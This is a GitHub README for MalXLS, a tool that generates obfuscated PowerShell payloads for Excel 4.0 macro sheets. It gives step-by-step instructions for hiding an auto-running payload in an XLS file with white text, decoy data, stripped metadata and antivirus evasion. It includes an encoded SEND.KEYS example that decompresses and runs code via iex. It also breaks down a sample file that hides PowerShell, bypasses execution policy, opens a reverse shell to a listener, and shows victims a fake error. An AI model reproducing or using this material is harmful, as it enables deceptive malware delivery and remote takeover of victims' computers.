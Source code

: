 # Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

Read this blog post: https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

The important part starts at the ``Support for XLM`` section.

It is also not immediately obvious that the file contains a macro if it is saved under ``XLS`` instead of ``XLSM`` until the warning is displayed when opening the file.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to ``Auto_Open`` to run the payload automatically when opening the file
  - For an example, see the provided ``Book1.xls`` file. It does not contain a cell named ``Auto_Open``
  - See [Usage](#usage) for instructions on generating a payload
- (Optional) Change the text color to ``WHITE`` and make sure the cells are the same size as regular cells
- Activate cell ``A1`` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet
- Remove identifying information from the file (File > Info > Check for Issues > Inspect Document)

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 with the May 2019 Update (1903) you are good to go, otherwise you need to install it.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the ``Generate Payload`` directory.

```
ComputePayload
Usage: .\ComputePayload.exe [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the generated commands into the clipboard
```
Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c 
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

#

``Book1.xls`` breakdown:

![](breakdown.png)

1.  Disable all warnings and errors so that the macro never breaks
2.  Open PowerShell in a minimized state (keystrokes still go through)
3.  Wait 1 second
4.  Hide the PowerShell window
5.  Continuation of 4.
6.  Wait 1 second
7.  Open a 32bit PowerShell session if the current one is 64bit
8.  Wait 1 second
9.  Set the execution policy to bypass for the current session so that any script may run
10. Wait 1 second
11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
12. Continuation of 11.
13. Continuation of 11.
14. Wait 1 second
15. Activate the Excel window
16. Display a faux error message about there being an error when opening the file
17. Close Excel (no warnings will be shown due to 1.)

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the ``TRUE`` switch for ``SEND.KEYS`` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

* PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for the [P4wnP1 A.L.O.A.
](https://github.com/RoganDawes/P4wnP1_aloa)
* PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
* PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
* [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book

